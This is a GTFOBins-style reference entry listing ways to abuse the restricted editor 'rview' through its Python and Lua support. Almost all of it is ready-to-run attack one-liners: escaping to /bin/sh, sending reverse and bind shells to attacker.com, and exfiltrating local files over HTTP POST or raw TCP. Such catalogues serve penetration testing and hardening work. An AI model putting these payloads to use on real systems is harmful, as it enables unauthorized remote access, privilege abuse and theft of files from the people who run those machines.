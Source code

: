 # GTFOBin: rview

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3.

```
rview -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

This requires that `rview` is compiled with Lua support.

```
rview -c ':lua os.execute("reset; exec sh")'
```

## Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3. Run `socat file:`tty`,raw,echo=0 tcp-listen:12345` on the attacker box to receive the shell.

```
export RHOST=attacker.com
export RPORT=12345
rview -c ':py import vim,sys,socket,os,pty;s=socket.socket()
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")
vim.command(":q!")'
```

## Non-interactive reverse shell

It can send back a non-interactive reverse shell to a listening attacker to open a remote network access.

Run `nc -l -p 12345` on the attacker box to receive the shell. This requires that `rview` is compiled with Lua support and that `lua-socket` is installed.

```
export RHOST=attacker.com
export RPORT=12345
rview -c ':lua local s=require("socket"); local t=assert(s.tcp());
  t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
  while true do
    local r,x=t:receive();local f=assert(io.popen(r,"r"));
    local b=assert(f:read("*a"));t:send(b);
  end;
  f:close();t:close();'
```

## Non-interactive bind shell

It can bind a non-interactive shell to a local port to allow remote network access.

Run `nc target.com 12345` on the attacker box to connect to the shell. This requires that `rview` is compiled with Lua support and that `lua-socket` is installed.

```
export LPORT=12345
rview -c ':lua local k=require("socket");
  local s=assert(k.bind("*",os.getenv("LPORT")));
  local c=s:accept();
  while true do
    local r,x=c:receive();local f=assert(io.popen(r,"r"));
    local b=assert(f:read("*a"));c:send(b);
  end;c:close();f:close();'
```

## File upload

It can exfiltrate files on the network.

This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via “d” parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.

```
export URL=http://attacker.com/
export LFILE=file_to_send
rview -c ':py import vim,sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
else: import urllib as u, urllib2 as r
r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
vim.command(":q!")'
```

This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.

```
export LPORT=8888
rview -c ':py import vim,sys; from os import environ as e
if sys.version_info.major == 3: import http.server as s, socketserver as ss
else: import SimpleHTTPServer as s, SocketServer as ss
ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
vim.command(":q!")'
```

Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires that `rview` is compiled with Lua support and that `lua-socket` is installed.

```
export RHOST=attacker.com
export RPORT=12345
export LFILE=file_to_send
rview -c ':lua local f=io.open(os.getenv("LFILE"), 'rb')
  local d=f:read("*a")
  io.close(f);
  local s=require("socket");
  local t=assert(s.tcp());
  t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
  t:send(d);
  t:close();'
```